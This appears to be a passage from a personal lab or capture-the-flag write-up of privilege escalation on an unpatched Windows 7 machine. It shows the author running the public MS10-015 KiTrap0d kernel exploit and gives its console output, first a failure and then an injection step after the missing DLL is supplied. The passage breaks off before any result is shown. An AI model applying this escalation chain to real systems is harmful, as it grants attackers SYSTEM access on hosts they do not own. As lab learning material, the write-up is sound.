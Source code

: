 From what I can gather, this seems to be a largely unpatched Win7 x86 box.

### exploitation to gain NT\_Authority\_System
&nbsp;
Using ftp again, and set in binary mode, I transferred a few executables for some of the win32 kernel exploits suggested in the results of above. 

I seemed to have mixed results with these, with most just killing or idling at the shell (IDK if they spawned another shell with NT\_Authority\_System or if they just killed the shell, but either way the prompt hung.)

For the sake of brevity, this writeup will not document the several hours I spent trying different exploits, only the 2 that seemed to be close to having the most success.

The first one I seemed to have some luck with was MS10-015. At first upon running, I got the following:

```
c:\inetpub\wwwroot>.\root.exe
.\root.exe
--------------------------------------------------
Windows NT/2K/XP/2K3/VISTA/2K8/7 NtVdmControl()->KiTrap0d local ring0 exploit
-------------------------------------------- taviso@sdf.lonestar.org ---

[+] Spawning a shell to give SYSTEM token (do not close it)
[?] CreateProcess("C:\WINDOWS\SYSTEM32\CMD.EXE") => 392
[?] GetVersionEx() => 6.1
[?] NtQuerySystemInformation() => \SystemRoot\system32\ntkrnlpa.exe@82843000
[?] Searching for kernel 6.1 signature { 64, a1, ... } ...
[+] Signature found 0xcde8d bytes from kernel base
[+] Starting the NTVDM subsystem by launching MS-DOS executable
[?] CreateProcess("C:\WINDOWS\SYSTEM32\DEBUG.EXE") => 0
[!] OpenProcess(0) failed, 0x57
[!] SpawnNTVDMAndGetUsefulAccess() returned failure
[+] Press any key to exit...
```

After reading through the source code for the exploit, I realized that error occured when missing the vdmexploit.dll library in the same folder as the exploit was ran. I realized I had the dll from the PoC i downloaded with wget, so transferred that over in binary over ftp. 

Upon doing that, it seems to have worked, however, SoP for the  exploit is to spawn a new privlidged cmd shell. Since I don't have a GUI, and only have one current shell, I can't see if anything spawned. 


```
c:\inetpub\wwwroot>.\root.exe
.\root.exe
--------------------------------------------------
Windows NT/2K/XP/2K3/VISTA/2K8/7 NtVdmControl()->KiTrap0d local ring0 exploit
-------------------------------------------- taviso@sdf.lonestar.org ---

[+] Spawning a shell to give SYSTEM token (do not close it)
[?] CreateProcess("C:\WINDOWS\SYSTEM32\CMD.EXE") => 3532
[?] GetVersionEx() => 6.1
[?] NtQuerySystemInformation() => \SystemRoot\system32\ntkrnlpa.exe@82843000
[?] Searching for kernel 6.1 signature { 64, a1, ... } ...
[+] Signature found 0xcde8d bytes from kernel base
[+] Starting the NTVDM subsystem by launching MS-DOS executable
[?] CreateProcess("C:\WINDOWS\SYSTEM32\DEBUG.EXE") => 3612
[?] OpenProcess(3612) => 0x2c
[?] Injecting the exploit thread into NTVDM subsystem @0x2c

[?] WriteProcessMemory(0x2c, 0x1040000, "VDMEXPLOIT.DLL", 14);
[?] WaitForSingleObject(0x38, INFINITE);
```
